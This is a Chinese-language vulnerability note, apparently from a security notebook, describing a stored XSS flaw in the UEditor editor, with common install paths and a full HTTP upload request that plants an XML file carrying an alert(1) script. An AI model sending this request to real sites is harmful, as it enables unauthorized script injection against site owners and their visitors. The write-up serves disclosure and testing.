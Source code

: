 # ueditor存在XSS漏洞

### 一、漏洞描述
ueditor存在XSS漏洞

### 二、影响版本
![1720728132194-b3f361fa-461b-41ae-97cf-c3e8d0598b22.png](./img/35L9MfrjXp4PhD_k/1720728132194-b3f361fa-461b-41ae-97cf-c3e8d0598b22-134145.png)

### 三、漏洞复现
Ueditor路径：

```plain
/ueditor/
/ueditor-1.4.3.3/net/
/ueditor1_4_3_3-utf8-net/utf8-net/
/utf8-net/
```

查看版本：

```plain
/ueditor/ueditor.all.js
```

首先点击上传附件，通过burp拦截，修改上传内容

![1724048797908-50f299b7-99a0-4cab-8ede-ea98be75892d.png](./img/35L9MfrjXp4PhD_k/1724048797908-50f299b7-99a0-4cab-8ede-ea98be75892d-144688.png)

```plain
POST /ueditor/php/controller.php?action=uploadfile&encode=utf-8 HTTP/1.1
Host: 
Content-Length: 886
X_Requested_With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryNHZorABX70DBbzax
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryNHZorABX70DBbzax
Content-Disposition: form-data; name="id"

WU_FILE_0
------WebKitFormBoundaryNHZorABX70DBbzax
Content-Disposition: form-data; name="name"

phphello.jpg
------WebKitFormBoundaryNHZorABX70DBbzax
Content-Disposition: form-data; name="type"

image/jpeg
------WebKitFormBoundaryNHZorABX70DBbzax
Content-Disposition: form-data; name="lastModifiedDate"

Tue May 28 2024 11:33:15 GMT+0800 (香港标准时间)
------WebKitFormBoundaryNHZorABX70DBbzax
Content-Disposition: form-data; name="size"

34
------WebKitFormBoundaryNHZorABX70DBbzax
Content-Disposition: form-data; name="upfile"; filename="phphello.xml"
Content-Type: image/jpeg

<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">
alert(1);
</something:script>
</body>
</html>
------WebKitFormBoundaryNHZorABX70DBbzax--
```

![1724076778474-6a6797d2-45dc-4bc3-897f-c16c48fc61e6.png](./img/35L9MfrjXp4PhD_k/1724076778474-6a6797d2-45dc-4bc3-897f-c16c48fc61e6-816298.png)

![1724055830613-310f0ec5-83c7-490b-ac93-5b1cd5c9a244.png](./img/35L9MfrjXp4PhD_k/1724055830613-310f0ec5-83c7-490b-ac93-5b1cd5c9a244-554733.png)



> 更新: 2024-09-05 23:24:41  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/fn98g15xv4wqohvy>
